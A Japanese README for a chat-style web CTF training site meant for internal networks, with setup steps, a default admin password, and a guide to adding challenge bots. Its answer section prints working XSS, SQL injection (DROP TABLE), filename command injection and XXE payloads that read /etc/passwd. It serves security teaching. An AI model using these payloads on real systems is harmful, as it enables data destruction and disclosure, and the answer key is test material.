 # chat-ctf (公開サーバでの利用はしないでください)
chatアプリケーション風WebCTFサイト。
内部ネットワーク内での利用を想定した、セキュリティ教材です。

## 依存
- docker-compose
- mkcert
- sqlite3

## 起動手順

```sh
$ git clone https://github.com/TakuKitamura/chat-ctf.git
$ cd chat-ctf
$ sudo docker compose up -d
$ vim src/.env.development # 適切なものを設定。
$ # IPは、サーバのIPアドレス
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ vim src/.env.production # 適切なものを設定
SECRET_COOKIE_PASSWORD=xxx # 30文字以上に設定してください
IP=192.168.1.x
$ cd src
$ ./setup-db.sh # Admin/Adm1nAdm1n というテストアカウントも追加されます。
$ mkcert 192.168.1.x
$ cd ..
$ sudo docker compose exec app yarn install
$ sudo docker compose exec app yarn build && sudo docker compose exec app yarn start
$ # or
$ sudo docker compose exec app yarn dev
```
https://192.168.1.x/login でログインできます。

https://192.168.1.x/signup でアカウントを作成できます。

CSVファイルからのアカウント一括作成も可能です。

```sh
$ vim /tmp/user.csv # 一例
UserID,Password,IconURL
Test1,Maixuo7p,https://example.com/1.jpg
Test2,eoch2ieP,https://example.com/2.jpg
$ cd chat-ctf/src
$ ./add-users.sh -f /tmp/user.csv -i 192.168.1.x
```

### Adminアカウント専用機能
- Adminアカウント(`Admin/Adm1nAdm1n`)でログインし、適当なテキストボックスで`/reset-chat`と入力するとchatデータがDBから削除される。画面更新をすると、chat履歴が消えていることを確認できる。

<details>

<summary>問題の回答</summary>

### Echo Bot [XSS]

ブラウザのDeveloper ToolでUser Agentを下記のように変更。
```
"><img src=x onerror="alert()"><!--
```

そして、適当なメッセージを入力し送信する。

### アーティスト検索 Bot [SQL Injection]

下記のメッセージを入力し送信する。
```
search=santana
n='; DROP TABLE user; --
```

### グレースケール変換 Bot [OS Command Injection]

アップロードする画像のファイル名を例えば以下に変え、アップロードする。
```
example`sleep 3`.jpg
```

### FizzBuzz Bot [XSS]

https://192.168.1.x?q=%3Cimg%20src=%22x%22%20onerror=%22alert()%22%3E

というようなURLにアクセスした上で、下記メッセージを入力し送信する。
```
n=200
```

### Excel解析 Bot [XXE]

適当なGoogleスプレッドシートを作成し、Microsoft Excel形式でダウンロード。ファイル名をexample.xlsxとする。
以下のように細工したファイルを作成する。

```sh
$ mkdir tmp
$ mv example.xlsx tmp
$ cd tmp
$ unzip example.xlsx
$ ls
[Content_Types].xml  _rels  example.xlsx  xl
$ cat xl/sharedStrings.xml # 出力結果は例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>AAA</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ vim xl/sharedStrings.xml # 例
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE test [ 
    <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="8" uniqueCount="4"><si><t>&xxe;</t></si><si><t>BBB</t></si><si><t>CCC</t></si><si><t>DDD</t></si></sst>
$ zip -r crafted.xlsx '[Content_Types].xml' _rels xl
  adding: [Content_Types].xml (deflated 71%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 40%)
  adding: xl/ (stored 0%)
  adding: xl/workbook.xml (deflated 58%)
  adding: xl/worksheets/ (stored 0%)
  adding: xl/worksheets/sheet1.xml (deflated 64%)
  adding: xl/worksheets/_rels/ (stored 0%)
  adding: xl/worksheets/_rels/sheet1.xml.rels (deflated 40%)
  adding: xl/drawings/ (stored 0%)
  adding: xl/drawings/drawing1.xml (deflated 66%)
  adding: xl/styles.xml (deflated 61%)
  adding: xl/theme/ (stored 0%)
  adding: xl/theme/theme1.xml (deflated 78%)
  adding: xl/_rels/ (stored 0%)
  adding: xl/_rels/workbook.xml.rels (deflated 66%)
  adding: xl/sharedStrings.xml (deflated 26%)
```

そして、crafted.xlsxをアップロードする。

</details>

---

# Bot問題追加ガイド

チャット形式CTFの各問題を `src/lib/bots/bot<number>.ts` の形式で実装しています。  
新しい問題を追加する際は、以下のルールに従ってください。

## 1. ファイル命名規則

- ファイル名は `bot1.ts`, `bot2.ts`, `bot3.ts` のように連番で命名します。
- 重複しない番号を使用してください。
- ファイル内のロジックで、問題に正解した場合は `gotFlag: true` を返すようにしてください。

## 2. Bot関数の構成

すべての Bot ファイルは、以下のように `default export` される `async` 関数を定義します。

```ts
import { BotHandlerArgs } from './types';
const escape = require('escape-html');

export default async function bot({
  req,
  message,
  file
}: BotHandlerArgs) {
  return {
    gotFlag: false,
    html: escape("出力メッセージ")
  };
}
```

戻り値の構造：

```ts
{
  gotFlag: boolean, // 正解時 true、不正解時 false
  html: string      // 表示するHTML文字列（ユーザ由来の入力は、escape必須）
}
```

## 3. 入力とユーティリティ関数

### BotHandlerArgs

すべての Bot は以下の引数を受け取ります：

- `req: NextApiRequest` - HTTPリクエストオブジェクト
  - https://www.jsdocs.io/package/next#NextApiRequest
- `message: string` - ユーザが送信したメッセージ
- `file: File` - ファイル情報（ファイルがアップロードされていなければ、undefined）
  - https://www.jsdocs.io/package/@types/formidable#File

### validCheckEnv の使い方

クエリ形式の `message` をパース・バリデーションする際には、共通ユーティリティ `validCheckEnv()` を使ってください。

```ts
import { validCheckEnv } from 'lib/ctf';

const result = validCheckEnv(message, ['key1', 'key2']);

if (!result.valid) {
  return {
    gotFlag: false,
    html: '<h3>Invalid Format</h3>'
  };
}

const key1 = result.params.key1;
const key2 = result.params.key2;
```

この関数は以下の形式のメッセージをパースします：

```
key1=value1&key2=value2
```

指定されたキーがすべて存在するかをチェックし、不正な形式であれば `valid: false` を返します。

## 4. Ctfテーブルへの登録

Bot を追加したら、対応するエントリを `Ctf` テーブルに追加してください。

### 対象ファイル

- `src/migrations/003-ctf.sql` を編集します。

### レコード追加形式

```sql
INSERT INTO Ctf (id, title, template, attachmentButton)
VALUES (<bot番号>, '<問題タイトル>', '<初期入力テンプレート>', <true|false>);
```

- `id`: `bot<number>.ts` の `<number>` と一致させること。
- `title`: チャットUIに表示される問題名。
- `template`: 入力フォームに事前表示される文字列（HTML可）。
- `attachmentButton`: ファイルアップロード用ボタンを表示するかどうか（`true` または `false`）。

### 反映方法

編集後は必ず、以下のスクリプトを実行してDBを再セットアップしてください：

```bash
$ cd src
$ ./setup-db.sh
```

これにより、CTF UI に新しい Bot が表示されます。
